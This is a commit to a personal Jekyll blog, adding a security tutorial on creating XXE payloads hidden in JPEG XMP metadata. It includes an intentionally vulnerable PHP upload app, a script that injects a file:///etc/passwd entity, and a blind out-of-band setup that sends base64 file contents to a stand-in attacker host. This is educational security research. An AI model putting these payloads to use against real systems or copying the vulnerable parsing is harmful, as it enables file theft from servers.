

Before and after one commit to searabbitx/searabbitx.github.io, a Jekyll site: the page built from index.html, in a window 1280 px wide. Shown: the top 664 px of the page, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; the list of posts is cut into pages by our own code.

Commit message:
XXE in XMP post

````diff
--- /dev/null
+++ b/_posts/2020-04-29-xxe-in-xmp.md
@@ -0,0 +1,201 @@
+---
+layout: post
+title: "Creating xxe payloads in xmp metadata"
+---
+
+Recently I've read [an interesting post](https://sekurak.pl/czytanie-plikow-z-serwera-poprzez-zwykly-upload-awatara-zobaczcie-na-te-podatnosc/) that referenced [this](https://hackerone.com/reports/836877) disclosed hackerone report about xxe in image upload functionality. This isn't the most obvious place to look for xxes, so:
+
+## How did it work?
+
+An xxe payload was injected in jpeg's [xmp](https://en.wikipedia.org/wiki/Extensible_Metadata_Platform) metadata which is basically a piece of xml embedded in an image. Unfortunately, the report does not provide a step-by-step guide for payload creation, as the bug hunter used burp suite extension for this
+
+>  I found this bug using the "Upload Scanner" extension, you can find it within the "Extender" option. See the screenshot for the configuration I used.
+
+Since I liked this idea, I decided to find a simple way to create such payloads with free tools and write a vulnerable app for testing purpose.
+
+## The app
+
+Consider the following php app:
+
+<div class="filename">index.php</div>
+{% highlight php  linenos %}
+<?php
+// we assume that external entities are enabled.
+libxml_disable_entity_loader(false);
+?>
+
+Read xmp author:
+
+<form enctype="multipart/form-data" action="/" method="POST">
+    Your file: <input name="userfile" type="file" />
+    <input type="submit" value="Send" />
+</form>
+
+
+<?php
+
+function readXmp($filename)
+{
+    $tmpPath = $_FILES[$filename]['tmp_name'];
+    $results = [];
+    exec("exiftool -xmp -b $tmpPath", $results);
+    return trim(implode('', $results));
+}
+
+function readMakerNote($xml)
+{
+    $dom = new DOMDocument();
+    $dom->loadXML($xml, LIBXML_NOENT | LIBXML_DTDLOAD);
+    foreach ($dom->getElementsByTagNameNS("*", "MakerNote") as $noteNode) {
+        return $noteNode->nodeValue;
+    }
+}
+
+if (isset($_FILES['userfile'])) {
+    $xmp = readXmp('userfile');
+    $note = readMakerNote($xmp);
+    echo "MakerNote is: $note";
+}
+
+?>
+{% endhighlight %}
+
+It takes an uploaded image, extracts xmp data, parses it to get the value of first `MakerNote` tag ignoring namespaces and then displays it to the user.
+
+If external entities are enabled, we can define one and simply put it in `MakerNote` tag as it will be reflected in response. So we have a target for testing purposes.
+
+Let's create some payloads.
+
+## The mighty exiftool
+
+First, let's define `MakerNote` in some jpg image:
+
+{% highlight bash %}
+$ exiftool -xmp:MakerNote=somenote some_image.jpg
+    1 image files updated
+{% endhighlight %}
+
+and check how our xmp looks like:
+
+{% highlight bash %}
+$ exiftool -xmp -b some_image.jpg
+
+<?xpacket begin='\xef\xbb\xbf' id='W5M0MpCehiHzreSzNTczkc9d'?>
+<x:xmpmeta xmlns:x='adobe:ns:meta/' x:xmptk='Image::ExifTool 10.80'>
+<rdf:RDF xmlns:rdf='http://www.w3.org/1999/02/22-rdf-syntax-ns#'>
+ <rdf:Description rdf:about=''
+  xmlns:exif='http://ns.adobe.com/exif/1.0/'>
+  <exif:MakerNote>somenote</exif:MakerNote>
+ </rdf:Description>
+</rdf:RDF>
+</x:xmpmeta>
+# lot's of 0x20's and 0x0a's here
+<?xpacket end='w'?>
+{% endhighlight %}
+
+Cool, but this whole xml was generated by exiftool and we need more control :). How do we define it ourself? The following syntax does the job:
+
+{% highlight bash %}
+$ exiftool -xmp="YOUR_XMP" some_image.jpg
+{% endhighlight %}
+
+## The payload
+
+Now, let's spice up what exiftool gave us with basic xxe payload:
+
+<div class="filename">create_payload.sh</div>
+{% highlight bash %}
+#/bin/bash
+
+xmp_data="
+<?xpacket begin='﻿' id='W5M0MpCehiHzreSzNTczkc9d'?>
+<!DOCTYPE x [
+  <!ENTITY sp SYSTEM \"file:///etc/passwd\">
+]>
+<x:xmpmeta xmlns:x='adobe:ns:meta/' x:xmptk='Image::ExifTool 10.80'>
+<rdf:RDF xmlns:rdf='http://www.w3.org/1999/02/22-rdf-syntax-ns#'>
+ <rdf:Description rdf:about=''
+  xmlns:exif='http://ns.adobe.com/exif/1.0/'>
+  <exif:MakerNote>&sp;</exif:MakerNote>
+ </rdf:Description>
+</rdf:RDF>
+</x:xmpmeta>
+<?xpacket end='r'?>
+"
+xmp_data=$(echo $xmp_data | sed 's/\n//g') # getting rid of nl characters
+
+exiftool -xmp="$xmp_data" $@
+{% endhighlight %}
+
+{% highlight bash %}
+$ ./create_payload.sh some_image.jpg
+    1 image files updated
+{% endhighlight %}
+
+And it seems to work!
+<br>
+<br>
+<br>
+![xxe]({{ "/assets/xxe_xmp_payload.png" | relative_url }})
+
+## Blind xxe
+
+But what if an app is not reflecting processed metadata? For example, `MakerNote` may be just stored somewhere and never displayed to a user:
+
+
+{% highlight php %}
+//...
+function store($makerNote)
+{
+    //...
+}
+//...
+
+if (isset($_FILES['userfile'])) {
+    $xmp = readXmp('userfile');
+    $note = readMakerNote($xmp);
+    store($note);
+}
+{% endhighlight %}
+
+Then we can ssrf out of this situation using following dtd's
+
+One in our xmp:
+{% highlight xml %}
+<!DOCTYPE x [
+  <!ELEMENT x ANY>
+  <!ENTITY % remote SYSTEM \"http://your-domain.com/my.dtd\">
+  <!ENTITY % file SYSTEM \"php://filter/read=convert.base64-encode/resource=file:///etc/hostname\">
+  %remote;
+]>
+{% endhighlight %}
+and one on our domain:
+<div class="filename">my.dtd</div>
+```
+<!ENTITY % uri "http://your-domain.com/%file;">
+<!ENTITY % eval '<!ENTITY exfiltrate SYSTEM "%uri;">'>
+%eval;
+```
+
+### Wait what?
+
+For some reason, in php you need to declare `%eval` in an external dtd. Otherwise, you get:
+
+```
+DOMDocument::loadXML(): PEReferences forbidden in internal subset in Entity
+```
+(More about ssrf in xxe and this problem [here](https://portswigger.net/web-security/xxe/blind#exploiting-blind-xxe-to-exfiltrate-data-out-of-band) and [here](https://blog.szfszf.top/tech/blind-xxe-%E8%AF%A6%E8%A7%A3-google-ctf-%E4%B8%80%E9%81%93%E9%A2%98%E7%9B%AE%E5%88%86%E6%9E%90/).)
+
+<br>
+Also note that base64 encoding is mandatory to form a valid url when the file you are including contains new lines. Here we get it for free with [php:// pseudoprotocol](https://www.php.net/manual/en/wrappers.php.php), but for other languages we need to find some other tricks.
+
+### Outcome
+
+If everything goes well, you should see something like this in your webserver's logs:
+
+```
+remote-domain.com - - [28/Apr/2020:22:10:54 +0200] "GET /my.dtd HTTP/1.0" 200 330 "-" "-"
+remote-domain.com - - [28/Apr/2020:22:10:54 +0200] "GET /bXkgaG9zdG5hbWUgaXMgbm9uZSBvZiB5b3VyIGJ1c2luZXNzISA6KQo= HTTP/1.0" 404 455 "-" "-"
+```
+
+Happy xxeing file uploads!
--- a/_sass/tale/_base.scss
+++ b/_sass/tale/_base.scss
@@ -33,6 +33,10 @@ h6 {
   color: $default-shade;
   font-family: $sans-serif;
   line-height: normal;
+}
+
+h1,
+h2 {
   margin-top: 2.5rem;
   margin-bottom: 2.5rem;
 }
--- a/_sass/tale/_post.scss
+++ b/_sass/tale/_post.scss
@@ -60,4 +60,11 @@
     padding: 0;
     margin: 0;
   }
+
+  .filename {
+    text-align: right;
+    font-style: italic;
+    opacity: .6;
+    padding-right: 15px;
+  }
 }
````
Also changed, not shown: assets/xxe_xmp_payload.png (added).
